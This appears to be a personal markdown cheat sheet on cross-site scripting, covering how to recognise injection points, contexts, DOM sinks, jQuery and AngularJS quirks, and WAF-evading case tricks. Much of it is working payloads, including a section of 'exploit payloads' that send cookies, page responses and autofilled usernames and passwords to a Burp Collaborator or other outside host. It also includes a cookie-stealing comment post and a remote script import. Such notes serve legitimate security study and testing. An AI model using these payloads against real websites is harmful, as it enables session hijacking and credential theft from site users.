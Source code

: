 # References
- Michael Sommer videos
- [Nahamsec Video](https://www.youtube.com/watch?v=ej2O4lOUzRc)
- [z3nsh3ll Playlist](https://www.youtube.com/playlist?list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV)
- https://public-firing-range.appspot.com/
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tools and Burp Extensions
- Web Developer Tools
- DOM Invader - Burp Suite Browser Extension

# What is it?
- When an attacker is able to inject javascript into a website
- Three types:
    - Reflected
    - Stored
    - DOM

# Recognition
- Remember that HTML parsing occurs before Javascript parsing
- Figure out where the input ends up. Is it a tag attribute, a script tag, etc?
- Are certain tags or attributes blocked? Use intruder and an XSS cheatsheet to find unblocked tags/attributes
- Is there any special handling for data? Do urls get turned into links?
- How are special characters handled? insert '<>:;"\/ to find out if they are being encoded.
```html
'"<a><<adsa>>\';//
```
- Introduce an event handler
```html
<u/onmouseover=alert(1)>test123
<img src=x onerror=alert(1)>
<!-- Other functions besides alert() can be used -->
Confirm
import('https://mysite.com/1.js')
print()
<!-- Example Below -->
<img src=x onerror=import('https://mysite.com/1.js')>
<!-- -->
```
- Every parameter in a url is a possible input field for XSS payloads
- Input a payload in the field and use `Control+F` to see if it reflects
- After that, use `Inspect` to check the DOM, also check the source code with the`view-source` functionality, or the HTTP response
- Determine the context where the input is seen 
- Figure out how to execute javascript within the context
- Determine what is getting encoded: ' " / \ < > ?
```html
test123;//
'"<a><<adsa>>\';//
</script>test123<img src=x onerror=alert(1)>
'; alert(1)//test123
%23f5f5f5</style>test123<script>alert(1)</script>
javascript:alert(document.cookie)
<iframe src="vulnerable-website#" onload="this.src+='<img src=1 onerror=print()>'" width="800" height="800"></iframe>
<iframe src="vulnerable-website" onload=this.style.width='100px'>
<img src=1 oNeRrOr=alert`1`>
"onmouseover="alert(1)
{{$on.constructor('alert(1)')()}}
&apos;-alert(1)-&apos;
${alert(1)}
'-alert()-'
\'-alert(1)//
\"-alert(1)}//
'"><svg/onload=fetch(`//url/${encodeURIComponent(document.cookie)}`)>
```
- Check for other parameters in the source code to find more possible injection vectors
- Test all the fields that are presented within the webpage
- Check the element and see if it is being encoded `&quot;` as an HTML entity
- Try to `Edit as HTML` and see if the special characters got html encoded
- There might be controls put in place via the browser but not the API
- Some payloads might not be allowed via the UI but sending them via the HTTP request on burp suite bypasses these controls

# Some Exploit payloads
- Payload 1
```js
var xhr = new XMLHttpRequest();
xhr.onload=function(){
    const x = new XMLHttpRequest();
    x.open('GET', 'url=?'+btoa(this.responseText));
    x.send();
};
xhr.open('GET', 'URL');
xhr.send();
```
- Payload 2
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://burp-collaborator/?'+btoa(document.cookie));
xhr.send();
```
- Payload 3
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- Payload 4
```html
<!--watch video "CSRF XSS payload example"-->
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 5);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'someemail@email.net');
data.append('website','https://website.net');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
- Payload 5
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```
- Payload 6
```html
<script>
location = 'url-here';
</script>
```
- [CSRF XSS payload example](https://www.youtube.com/watch?v=N_87S9XVy0w)
- [Password Autofill-Payload example](https://www.youtube.com/watch?v=I6TOtXSOZ90)

# XSS Context
- Remember that HTML parsing occurs before Javascript parsing
- XSS in HTML tag attribute: Find a way to terminate the attribute and add a new one with an event handler that allows you to inject the payload
- href attribute - javascript:alert()
- XSS in Javascript template literals ``
```js
// Use the ${...} to insert the payload
${insert-payload-here}
```
- Try double curly brackets and see if it is evaluated `{{ 1 + 1 }}`
- Inside eval
- Are the angle brackets <> getting encoded/escaped? Is the encoding recursive or just the first instance? Try `<><img src=x onerror=alert()>`
- Hidden field or canonical link: Use accessKey event `accessKey="X" onclick="alert(1)"`[Portswigger Article](https://portswigger.net/research/xss-in-hidden-input-fields)
- Inside a quoted tag attribute Use HTML-encoding: After the HTML tags and attributes are parsed, the browser will perform HTML-decoding of the tag attribute values `&apos;-alert()-&apos;`

# Sinks
- innerHTML
    - On modern web browsers `script` elements inserted with innerHTML are sanitized
    - On modern web browsers `onload` events inside `svg` elements inserted with innerHTML are sanitized 
    - use `<img>` or `<iframe>` as viable options to inject a payload
    - [W3 HTML5 - innerHTML](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
    - [Developer Mozilla - innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- Sources and sinks in third-party dependencies
    - Each one has it quirks, investigate about them.
    - jQuery
        - attr(): this function changes the attributes of DOM elements. If the sink is an `href` attribute, then inject a malicious `javascript:payload-here`
        - $(): this function selector joined with the insecure usage of the `contains` method could be vulnerable due to malicious DOM element injection. Example involving `location.hash`, payload: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - AngularJS
        - ng-app: If this attribute is used on a HTML element AngularJS will execute javascript inside double curly braces `{{$on.constructor('alert(1)')()}}`
# Obfuscation
- Some payloads may need to be obfuscated to bypass WAF
```html
<img src=1 oNeRrOr=alert`1`>
```

